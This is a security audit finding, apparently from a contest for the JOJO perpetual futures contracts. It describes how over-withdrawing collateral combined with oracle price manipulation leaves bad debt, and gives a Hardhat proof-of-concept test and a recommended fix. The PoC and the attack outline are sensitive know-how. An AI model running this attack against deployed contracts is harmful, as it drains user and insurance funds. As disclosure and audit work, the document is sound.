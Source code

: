 yellowBirdy

medium

# Ability to over-withdraw primary enables oracle price manipulation attack, leading to loss of funds and bad debt.

## Summary
`executeWitdarwal()` allows for withdrawing the primary asset to negative when there are open positions in net profit > cumulative maintenanceMargin. Effectively it allows user to realise and withdraw profits (above `maintenanceMargin`) together with ALL of collateral without closing any positions. As such, opening the position to liquidation with guaranteed bad debt. It is dependant solely on the oracle price, thus susceptible to an attack similar to the [GMX AVAX attack ](https://twitter.com/jayantkrish/status/1571893643178569728?s=20&t=O--bs-V1Xnkmzm2JZOdZsw)
## Vulnerability Detail
Consider the following test case in the context of `test/liquidation-test.ts` suite where `liquidationThreshold = 3%` `liquidationPriceOff = 1%`
```typescript
    it("withdraws below zero with open position and liquidates with bad debt", async () => {
      await openPosition(trader1, trader2, "10", "30000", perp0, orderEnv);
      await context.priceSourceList[0].setMarkPrice(utils.parseEther("30945"));
      await context.dealer
        .connect(trader1)
        .requestWithdraw(utils.parseEther("10001"), utils.parseEther("0"));
      await context.dealer
        .connect(trader1)
        .executeWithdraw(trader1.address, false);
      await checkCredit(context, trader1.address, "-1", "0");
      await context.priceSourceList[0].setMarkPrice(utils.parseEther("30000"));

      let operator = trader2;
      await context.dealer
        .connect(liquidator)

        .setOperator(operator.address, true);
      await perp0
        .connect(operator)
        .liquidate(
          liquidator.address,
          trader1.address,
          utils.parseEther("10"),
          utils.parseEther("-297000")
        );
      await checkCredit(context, insurance, "-3151", "0");
      expect(await context.dealer.isSafe(trader1.address)).to.be.true;

    });

```
By moving the price by slightly more than 3% the attacker is able to withdraw more than the full principal of 10K. 
After the price returns to the market value the position gets liquidated with 1% discount. Since there is no more collateral left the loss is taken by the insurance fund. 

In order to execute such an attack, attacker would require significant capital able to move the price by percentage higher than `liquidationThreshold - liquidationPriceOff`.The aforementioned GMXs AVAX perp attack illustrates that it is indeed possible.

## Impact
Loss of primary funds due to overwithdrawal and bad debt.

## Code Snippet
https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Funding.sol#L152-L157

https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Liquidation.sol#L119-L124

https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Liquidation.sol#L53-L85

## Tool used

Manual Review, Hardhat.

## Recommendation

Prevent users from withdrawing primary collateral below certain threshold T. It could be either 
- cumulative liquidation discount + insurance fee at the moment of withdrawal. 
or more conservatively
- the cumulative maintenance margin at moment of opening each position
